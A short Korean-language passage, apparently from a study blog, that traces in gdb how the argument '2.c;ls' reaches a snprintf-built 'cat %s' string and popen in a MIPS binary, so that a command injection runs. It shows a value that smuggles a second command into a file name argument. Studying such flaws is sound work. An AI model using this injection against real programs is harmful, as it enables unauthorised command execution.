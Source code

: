 2.c;ls 중 2.c만 $a3레지스터에 남게 된다. 왜죠? ...무튼...

"command" 방식으로 입력 값을 주었을 시 아래 와 같다.

```
(gdb) r "2.c;ls"
Starting program: /home/user/3 2.c ; ls
Breakpoint 1, 0x004007dc in main ()
(gdb) x/s $a0
0x7fff6c78:	 "w\374yp"
(gdb) x/s $a1
0x32:	 <Address 0x32 out of bounds>
(gdb) x/s $a2
0x400a40:	 "cat %s"
(gdb) x/s $a3
0x7fff6e9c:	 "2.c;ls"
```

$a3 레지스터가 "2.c;ls"로 설정되어 있다.

```
0x00400800 <+96>:	addiu	v0,s8,80
0x00400804 <+100>:	move	a0,v0
0x00400808 <+104>:	lui	v0,0x40
0x0040080c <+108>:	addiu	a1,v0,2652
0x00400810 <+112>:	jal	0x400650 <popen@plt>
(gdb) x/s $a0
0x7fff6c78:	 "cat 2.c;ls"
(gdb) x/s $a1
0x400a5c:	 "r"
```

popen함수에 snpritf값인 cat 2.c;ls가 넘어오게 되고, command injection이 실행되게 된다! 야호! 성공 :)
